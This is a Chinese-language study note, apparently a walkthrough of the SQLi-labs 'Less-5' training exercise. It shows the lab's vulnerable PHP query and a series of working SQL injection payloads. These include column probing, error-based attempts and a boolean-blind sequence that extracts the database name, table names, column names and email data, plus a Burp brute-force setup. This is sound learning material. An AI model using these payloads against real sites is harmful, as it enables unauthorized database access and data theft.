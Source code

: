 # Less-5

## 0x00 注入

?id=1'

![image-20210112173848042](D:\WEB安全\笔记\image\image-20210112173848042.png)

?id=1' order by 4--+

![image-20210112173959557](D:\WEB安全\笔记\image\image-20210112173959557.png)

?id=1' order by 3--+

![image-20210112174016619](D:\WEB安全\笔记\image\image-20210112174016619.png)



```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else
        {

        echo '<font size="3" color="#FFFF00">';
        print_r(mysql_error());
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
```
不显示数据？？？？

盲注！！！！

将数据通过报错信息显示出来。报错型注入，并不是盲注。

原理：将group by与一个聚合函数一起使用，产生逻辑错误，可以将要查询的内容作为错误信息返回。

可用于产生错误的聚合函数有：



?id=-1' union select 1, count(*), concat(database() COLLATE utf8_general_ci, ':', rand(2), ':')   as a from information_schema.tables group by a--+

?id=-1' union select 1, count(*), concat(database() COLLATE utf8_general_ci, ':', floor(rand()x9), ':')   as a from information_schema.tables group by a--+

搞不了，一直报错

![image-20210113104600861](D:\WEB安全\笔记\image\image-20210113104600861.png)



这里换成布尔盲注

原理：利用booler值和二分法进行猜测

先猜database()的长度和内容。

?id=1' and length(database())>10--+

![image-20210113105252672](D:\WEB安全\笔记\image\image-20210113105252672.png)

?id=1' and left(database(), 1)>a--+

这里我直接用bp暴力跑。

id=1%27%20and%20substr(database(),%208,%201)=%27y%27--+

substr(s, pos, len)

使用Cluster bomb，第一位为数字1-8，第二位为字母a-z和各种mysql允许的字符。

mysql允许的字符：



只用小写字母即可，mysql不区分大小写。

爆表的数量

?id=1' and (select count(*) from information_schema.tables where table_schema=database() )=10--+

爆表名长度

?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0, 1))=10--+

爆表名

?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0, 1), 1, 1))=97--+

?id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0, 1), 1, 1)='e'--+

爆字段数量

?id=1' and  (select count(column_name) from information_schema.columns where table_schema=database() and table_name='emails')=10--+

爆字段长度

?id=1' and length((select column_name from information_schema.columns where table_schema=database()  and table_name='emails' limit 0, 1))=8--+

爆字段名

?id=1' and substr((select column_name from information_schema.columns where table_schema=database()  and table_name='emails' limit 0, 1), 1, 1)='e'--+



爆数据数量

?id=1' and (select count(*) from emails)=8--+

爆数据长度

?id=1' and length((select email_id from emails limit 0, 1))=10--+

爆数据

?id=1' and substr((select email_id from emails limit 0, 1), 1, 1)='e'--+



limit 0, 1 返回一条数据，数据集第一条

limit 1, 1 返回一条数据，数据集第二条

建议使用ascii()，因为mysql不区分大小写，需要利用ascii()来判断字符的大小写

## 0x01 总结
